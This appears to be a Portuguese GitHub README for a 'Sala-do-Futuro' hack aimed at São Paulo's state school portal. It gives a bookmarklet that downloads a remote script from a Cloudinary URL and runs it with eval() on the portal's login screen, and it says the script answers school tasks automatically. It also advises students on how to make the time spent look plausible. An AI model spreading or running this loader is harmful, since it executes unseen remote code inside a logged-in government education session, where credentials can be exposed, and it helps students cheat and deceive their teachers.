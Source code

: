 # 🏫 Sala-do-Futuro

## Script:
(Bookmarklet)
```js
javascript:fetch('https://res.cloudinary.com/das83r5ez/raw/upload/v1746668159/wm3i2bh4yrtfrsi6qgg5.txt?nocache=%27 + Math.random())  .then(t => t.text())  .then(eval);
```
## **Método PC**

1. Clique com o botão direito na **barra de favoritos** do seu navegador.
2. Escolha a opção **"Adicionar página"** ou **"Adicionar aos favoritos"**.
3. Preencha os campos:

   * **Nome:** Escolha um título para o favorito.
   * **URL/Endereço:** Cole o código fornecido acima.

## **Método Mobile/Android**

1. Toque nos **três pontos verticais** (☰) no canto superior direito do navegador.
2. Selecione o ícone de **estrela** (Adicionar aos favoritos).
3. Na janela que se abrir:

   * **Nome:** Insira um título para o favorito.
   * **URL/Endereço:** Cole o código fornecido acima.

Depois...

Vá para: [https://saladofuturo.educacao.sp.gov.br](https://saladofuturo.educacao.sp.gov.br)

E use o bookmarklet na TELA DE LOGIN! Responde a tarefa de qualquer jeito. O hack cuida das respostas corretas pra você.
> ⚠️ IMPORTANTE: O bookmarklet só vai funcionar se você usar ele **na tela de login**, como explicado no inicio

> ⚠️ OUTRO AVISO: Quanto mais tempo você ficar na página, mais tempo vai contar. Se você responder tudo de uma vez, o tempo que você demorou pra responder vai contar lá na tarefa.

> ⚠️  Nova atualização em breve! será possível marcar as tarefas e responde-las automaticamente com o tempo desejado!

Aliado sangue bom <3 [inacalleP](https://github.com/inacallep)

https://tarefas-destroyer-i6rt.vercel.app/

<p align="center"><a href="#"><img src="https://komarev.com/ghpvc/?username=1lusa0&style=for-the-badge&label=Views:&color=gray"/></a></p>
